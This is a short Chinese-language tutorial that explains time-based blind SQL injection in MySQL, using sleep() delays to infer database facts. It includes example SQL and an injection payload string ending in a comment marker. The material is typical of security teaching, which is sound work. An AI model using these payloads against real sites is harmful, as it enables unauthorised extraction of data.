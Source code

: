 # 时间注入

时间注入又名延时注入，属于盲注入的一种，通常是某个注入点无法通过布尔型注入获取数据而采用一种突破注入的技巧。
在 mysql 里 函数 sleep() 是延时的意思，sleep(10)就是 数据库延时 10 秒返回内容。判断注入可以使用'and sleep(10) 数据库延时 10 秒返回值 网页响应时间至少要 10 秒根据这个原理来判断存在 SQL 时间注入。
代码示例

```sql
select if(2>1,sleep(10),0)
select if(length(database())>1,sleep(5),0)
1' or if(length(database())>1,sleep(5),0)-- 
```

查看网页响应时间，可以确认判断内容是否正确，下面两张图显示的是正确和错误时间上的差异

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675302778066-aef2b7e2-5e97-4ebc-9a87-ccb0bb286a8d.png)
